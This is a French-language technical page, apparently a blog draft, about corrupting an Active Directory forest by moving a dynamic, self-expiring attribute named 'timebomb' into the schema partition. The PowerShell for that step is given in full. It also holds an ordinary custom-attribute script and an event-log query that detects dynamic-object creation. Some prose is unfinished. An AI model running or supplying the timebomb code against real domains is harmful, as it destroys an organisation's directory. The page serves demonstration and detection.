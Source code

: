 ```yaml
---
title: "Comment détruire votre Active Directory"
description: "Votre forêt s'auto-détruira dans 3, 2, 1..."
tags: active-directory
listed: true
---
```


Création d'un objet temporaire dans le schéma Active Directory

[PowerShell Gallery \| scripts/New-ADSchemaTestOID.ps1 0.0.3](https://www.powershellgallery.com/packages/ADSchema/0.0.3/Content/scripts%5CNew-ADSchemaTestOID.ps1)

[PowerShell Gallery \| scripts/New-ADSchemaAttribute.ps1 0.0.1](https://www.powershellgallery.com/packages/ADSchema/0.0.1/Content/scripts%5CNew-ADSchemaAttribute.ps1)


## Comportement d'un objet dynamique

### Création d'un objet statique dans un objet dynamique

Lorsque vous 

Aucun problème en revanche pour créer un objet dynamique dans un autre objet dynamique

"Windows cannot create the object testGroup because: The server is unwilling to process the request"

## Détruire votre domaine Active Directory

### Création d'un objet temporaire dans le schéma

Basé sur l'article : [Create and manage custom AD attributes with PowerShell – 4sysops](https://4sysops.com/archives/create-and-manage-custom-ad-attributes-with-powershell/#rtoc-4)

#### Génération d'un OID

```powershell
function New-Oid {
    param([string]$Prefix = '1.2.840.113556.1.8000.2554')

    $guid = [string]([System.Guid]::NewGuid())
    $oid = 0, 4, 9, 14, 19, 24, 30 | ForEach-Object {
        if ($_ -ge 24) { $l = 6 } else { $l = 4 }
        [UInt64]::Parse($guid.SubString($_, $l), 'AllowHexSpecifier')
    }
    $prefix + ($oid -join '.')
}
```

#### Ajout d'un nouvel attribut

```powershell
# Création de l'attribut en dehors de la partition Schéma
$dynamicObject = ([ADSI]("LDAP://CN=Users,DC=contoso,DC=com")).Create('attributeSchema', 'CN=timebomb')
$dynamicObject.PutEx(2, 'objectClass', @('dynamicObject', 'attributeSchema'))
$dynamicObject.Put('entryTTL', 900)
$dynamicObject.Put('lDAPDisplayName', 'timebomb')
$dynamicObject.Put('adminDescription', 'This attribute will blow up the entire Active Directory forest in 15 minutes')
$dynamicObject.Put('attributeId', (New-Oid))
$dynamicObject.Put('oMSyntax', 1)
$dynamicObject.Put('attributeSyntax', '2.5.5.8')
$dynamicObject.Put('searchflags', 0)
$dynamicObject.SetInfo()
```

```powershell
# Déplacement de l'objet dans la partition schéma
Move-ADObject -Identity 'CN=timebomb,CN=Users,DC=contoso,DC=com' -TargetPath (Get-ADRootDSE).schemaNamingContext
```





function Get-ADSyntaxType {
    param([ValidateSet('Boolean', 'Enumeration', 'Integer', 'LargeInteger', 'Object(DN-String)', 'String(Unicode)', 'String(UTC-Time)')][string]$Type)

    switch ($Type) {
        'Boolean'           { $omSyntax = 1   ; $attrSyntax = '2.5.5.8' }
        'Enumeration'       { $omSyntax = 10  ; $attrSyntax = '2.5.5.9' }
        'Integer'           { $omSyntax = 2   ; $attrSyntax = '2.5.5.9' }
        'LargeInteger'      { $omSyntax = 65  ; $attrSyntax = '2.5.5.16' }
        'Object(DN-String)' { $omSyntax = 127 ; $attrSyntax = '2.5.5.14' }
        'String(Unicode)'   { $omSyntax = 64  ; $attrSyntax = '2.5.5.12' }
        'String(UTC-Time)'  { $omSyntax = 23  ; $attrSyntax = '2.5.5.11' }
    }

    [PSCustomObject]@{
        oMSyntax = $omSyntax
        attributeSyntax = $attrSyntax
    }
}

# get AD schema path
$adSchema = (Get-ADRootDSE).schemaNamingContext
 
# get user schema
$userSchema = Get-ADObject -SearchBase $adSchema -Filter "Name -eq 'User'"
# set the short name for custom attribute with no spaces
$attributeName = "CampusName"
# set the short description for custom attribute
$attributeDesc = "Campus Name"
# paste the OID generated by "Generate-OID.ps1" script
$OID = "1.2.840.113556.1.8000.2554.56779.46056.47028.16885.40810.7627542.10407433"
# oMSyntax is "64" for String (Unicode). Refer this link for other types: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/7cda533e-d7a4-4aec-a517-91d02ff4a1aa
$oMSyntax = 64
# attributeSyntax is "2.5.5.12" for String (Unicode). Refer this link for other types: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/7cda533e-d7a4-4aec-a517-91d02ff4a1aa
$attributeSyntax = "2.5.5.12"
# set the indexable value to "1" if you want AD to index this attribute. set this only if you would be querying this AD attribute a lot.
$indexable = 0
# build custom attributes hashtable
$adAttributes = @{
  lDAPDisplayName = $attributeName;
  adminDescription = $attributeDesc;
  attributeId = $OID;
  oMSyntax = $oMSyntax;
  attributeSyntax = $attributeSyntax;
  searchflags = $indexable
}
# create the custom attribute in AD schema
New-ADObject -Name  $attributeName -Type attributeSchema -Path $adSchema -OtherAttributes $adAttributes
 
# add the custom attribute to user class
$userSchema | Set-ADObject -Add @{mayContain = $attributeName}
```

## Détection de la création d'objet dynamique


```powershell
$filterXPath = "Event[System[EventID=5136]] and *[EventData[Data[@Name='AttributeValue']='1.3.6.1.4.1.1466.101.119.2']]"
Get-WinEvent -ProviderName Microsoft-Windows-Security-Auditing -FilterXPath $filterXPath
```

[AD Object Detection: Detecting the undetectable (dynamicObject) \| Microsoft Learn](https://learn.microsoft.com/en-us/archive/blogs/pfesweplat/ad-object-detection-detecting-the-undetectable-dynamicobject)